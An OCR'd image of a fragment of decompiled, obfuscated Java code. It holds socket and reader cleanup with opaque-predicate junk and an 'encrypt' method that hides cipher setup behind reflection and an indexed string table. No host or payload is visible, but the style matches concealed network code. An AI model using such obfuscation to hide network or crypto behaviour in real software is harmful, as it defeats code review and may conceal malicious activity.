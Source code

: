 ```
                                th.addSuppressed(th2);
                            }
                            throw th;
                        }
                    } while ((107 ^ 111) >= "   ".length());
                } catch (Throwable th3) {
                    try {
                        bufferedReader.close();
                        "".length();
                        if ((((((4 + 93) - 74) + 114) ^ (((54 + 50) - (-65)) + 28)) & (((101 ^ 120) ^ (60 ^ 109)) ^ (-" ".length()))) < 0) {
                            return;
                        }
                    } catch (Throwable th4) {
                        th3.addSuppressed(th4);
                    }
                    throw th3;
                }
            } catch (Throwable th5) {
                try {
                    socket.close();
                    "".length();
                    if ("  ".length() != "  ".length()) {
                        return;
                    }
                } catch (Throwable th6) {
                    th5.addSuppressed(th6);
                }
                throw th5;
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    private static String encrypt(String str) throws Exception {
        Class<?> cls = Class.forName(I[l[0]]);
        Class<?>[] clsArr = new Class[l[1]];
        clsArr[l[0]] = byte[].class;
        clsArr[l[2]] = String.class;
        Constructor<?> constructor = cls.getConstructor(clsArr);
        Object[] objArr = new Object[l[1]];
        objArr[l[0]] = I[l[2]].getBytes();
        objArr[l[2]] = I[l[1]];
        Object newInstance = constructor.newInstance(objArr);
        Class<?> cls2 = Class.forName(I[l[3]]);
        String str2 = I[l[4]];
        Class<?>[] clsArr2 = new Class[l[2]];
        clsArr2[l[0]] = String.class;
        Method method = cls2.getMethod(str2, clsArr2);
        Object[] objArr2 = new Object[l[2]];
        objArr2[l[0]] = I[l[5]];
        Object invoke = method.invoke(null, objArr2);
        String str3 = I[l[6]];
        Class<?>[] clsArr3 = new Class[l[1]];
        clsArr3[l[0]] = Integer.TYPE;
        clsArr3[l[2]] = Class.forName(I[l[7]]);
        Method method2 = cls2.getMethod(str3, clsArr3);
        Object[] objArr3 = new Object[l[1]];
        objArr3[l[0]] = Integer.valueOf(l[2]);
        objArr3[l[2]] = newInstance;
        method2.invoke(invoke, objArr3);
        "".length();
```